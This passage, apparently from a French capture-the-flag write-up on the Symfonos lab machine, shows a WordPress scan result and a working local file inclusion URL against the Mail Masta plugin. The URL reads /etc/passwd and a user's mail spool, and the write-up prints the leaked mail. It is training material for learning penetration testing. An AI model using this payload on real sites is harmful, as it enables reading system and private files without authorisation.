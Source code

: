 ```
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt
```

A priori c'est un véritable gruyère. On peut par exemple utiliser une faille d'inclusion PHP : [WordPress Plugin Mail Masta 1.0 - Local File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/40290)

Le PoC fonctionne très bien pour lire `/etc/passwd`.

http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Comme il y a un service SMTP en écoute on est tenté d'inclure un fichier de mail du système. Ca échoue avec `www-data`  mais j'obtiens bien des données avec `/var/spool/mail/helios` :

```html
--2EE7C40AB0.1676879280/symfonos.localdomain
Content-Description: Undelivered Message
Content-Type: message/rfc822
Content-Transfer-Encoding: 8bit

Return-Path: <helios@symfonos.localdomain>
Received: by symfonos.localdomain (Postfix, from userid 1000)
	id 2EE7C40AB0; Fri, 28 Jun 2019 19:46:02 -0500 (CDT)
To: helios@blah.com
Subject: New WordPress Site
X-PHP-Originating-Script: 1000:class-phpmailer.php
Date: Sat, 29 Jun 2019 00:46:02 +0000
From: WordPress <wordpress@192.168.201.134>
Message-ID: <65c8fc37d21cc0046899dadd559f3bd1@192.168.201.134>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

http://192.168.201.134/h3l105

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during installation.
Log in here: http://192.168.201.134/h3l105/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/


--2EE7C40AB0.1676879280/symfonos.localdomain--
```
